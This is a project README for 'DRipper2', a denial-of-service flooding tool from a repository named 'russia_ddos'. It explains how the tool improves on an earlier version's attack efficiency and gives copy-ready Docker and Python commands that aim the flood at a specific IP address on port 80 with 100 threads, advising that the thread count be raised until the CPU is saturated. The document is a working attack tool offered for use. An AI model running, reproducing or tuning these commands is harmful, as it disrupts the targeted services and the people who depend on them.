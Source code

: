 ## Description

This is an optimized version of DRipper. Here is original code: https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54, you can see there a lot of cons like extra requests to Facebook and validator.w3.com, trying establishing connection with attacked resource (but there is no need in it if you want to send a UDP packet). Also the old version is inefficient: you need run several processes to have your processor busy.


## Usage
1. Docker

```bash
docker run -ti --rm alexmon1989/dripper2:latest -s 213.24.76.23 -p 80 -t 100
```

2. Directly with Python.

Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default 80);

-t - threads count. The most important setting. Try to keep the processor busy up to 100%.

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
python -u DRipper2.py -s 213.24.76.23 -p 80 -t 100
# OR
python3 -u DRipper2.py -s 213.24.76.23 -p 80 -t 100
```
